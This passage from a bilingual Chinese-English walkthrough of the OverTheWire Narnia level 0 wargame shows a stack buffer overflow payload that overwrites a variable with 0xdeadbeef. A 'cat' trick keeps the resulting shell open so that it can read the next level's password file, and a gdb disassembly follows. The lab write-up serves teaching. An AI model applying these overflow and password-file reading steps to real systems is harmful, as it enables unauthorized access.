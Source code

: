 ### Step 3:制作利用

现在我们知道`val`在第20字节开始溢出. 所有我们需要做的是在过最后的四个字节添加```deadbeef```.

但是,我们需要用十六进制形式写这个:

```sh
narnia0@melinda:/narnia$ python -c'print "A"*20 + "\xef\xbe\xad\xde"'
AAAAAAAAAAAAAAAAAAAAﾭ
narnia0@melinda:/narnia$ (python -c'print "A"*20 + "\xef\xbe\xad\xde"') | ./narnia0 Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ
val: 0xdeadbeef
```

哇, 漏洞利用开始工作了!


### Step 4: Getting Access to the Shell


We  were able to get access to our shell, but it closed too fast, when the program execution ended.

We need to create a way to read the password before we loose the  control to the shell. A good way is pipelining some command that  waits for an input, such as ```tail``` or ```cat```.

It turns out that only ```cat``` actually prints the output:

```sh
narnia0@melinda:/narnia$ (python -c'print "A"*20 + "\xef\xbe\xad\xde"'; cat) | /narnia/narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ
val: 0xdeadbeef
cat /etc/narnia_pass/narnia1
```
Done! We have completed the 0th level!


### Step 5: Debugging it!
Although this problem was easy enough so we didn't need to debug anything, it's a good call to understand the process while the challenge is easy:

```sh
narnia0@melinda:/narnia$ gdb ./narnia0
(gdb) set disassembly-flavor intel
(gdb) disas main
Dump of assembler code for function main:
   0x080484c4 <+0>: push   ebp
   0x080484c5 <+1>: mov    ebp,esp
   0x080484c7 <+3>: and    esp,0xfffffff0
   0x080484ca <+6>: sub    esp,0x30
   0x080484cd <+9>: mov    DWORD PTR [esp+0x2c],0x41414141
   0x080484d5 <+17>:  mov    DWORD PTR [esp],0x8048640
   0x080484dc <+24>:  call   0x80483b0 <puts@plt>
   0x080484e1 <+29>:  mov    eax,0x8048673
   0x080484e6 <+34>:  mov    DWORD PTR [esp],eax
   0x080484e9 <+37>:  call   0x80483a0 <printf@plt>
   0x080484ee <+42>:  mov    eax,0x8048689
   0x080484f3 <+47>:  lea    edx,[esp+0x18]
   0x080484f7 <+51>:  mov    DWORD PTR [esp+0x4],edx
   0x080484fb <+55>:  mov    DWORD PTR [esp],eax
   0x080484fe <+58>:  call   0x8048400 <__isoc99_scanf@plt>
   0x08048503 <+63>:  mov    eax,0x804868e
   0x08048508 <+68>:  lea    edx,[esp+0x18]
   0x0804850c <+72>:  mov    DWORD PTR [esp+0x4],edx
(...)
End of assembler dump.
```
Let's put a break point right after ```scanf```:

[未经边界检查的输入]: http://en.wikipedia.org/wiki/Bounds_checking
[缓冲区溢出]: http://en.wikipedia.org/wiki/Buffer_overflow
[进程的虚拟内存]: http://en.wikipedia.org/wiki/Virtual_memory
[物理内存]: http://en.wikipedia.org/wiki/Computer_memory
[虚拟内存空间]: http://en.wikipedia.org/wiki/Virtual_memory
[堆栈的方向]: https://stackoverflow.com/questions/664744/what-is-the-direction-of-stack-growth-in-most-modern-systems
[内存段异常]: http://en.wikipedia.org/wiki/Segmentation_fault
[堆]: http://en.wikipedia.org/wiki/Heap_(data_structure)
[Python & Algorithms]: https://github.com/bt3gl/Python-and-Algorithms-and-Data-Structures/blob/master/book/book_second_edition.pdf
[这里是一些例子]: https://github.com/bt3gl/Python-and-Algorithms-and-Data-Structures/tree/master/src/abstract_structures/Stacks
[WarGames]: http://overthewire.org/wargames
[Narnia]: http://overthewire.org/wargames/narnia
[Aleph One]: http://en.wikipedia.org/wiki/Elias_Levy
[Phrack magazine]: http://www.phrack.org/
[Smashing the Stack for Fun or Profit]: http://insecure.org/stf/smashStack.html
[Peter Jay Salzman]: http://www.dirac.org/linux/gdb/
[nice Assembly guide]: http://www.drpaulcarter.com/pcasm/
[run a binary and read its C code]: http://www.thegeekstuff.com/2011/10/c-program-to-an-executable/
[little-endian]: http://en.wikipedia.org/wiki/Endianness
[x86]: http://en.wikipedia.org/wiki/X86
[ASCII]: http://en.wikipedia.org/wiki/ASCII
[hexadecimal representation]: http://en.wikipedia.org/wiki/Hexadecimal
[Shellshock guide]: http://bt3gl.github.io/understanding-the-shellshock-vulnerability.html
[very introductory guide]: http://www.thegeekstuff.com/2010/03/debug-c-program-using-gdb/
[comprehensive guide]: http://www.dirac.org/linux/gdb/
[0xdeadbeef]: http://en.wikipedia.org/wiki/Hexspeak
[Appendix A]: http://insecure.org/stf/smashStack.html
[/dev/null]: http://en.wikipedia.org/wiki/Null_device
[ASLR]: http://en.wikipedia.org/wiki/Address_space_layout_randomization
[NOPs]: http://en.wikipedia.org/wiki/NOP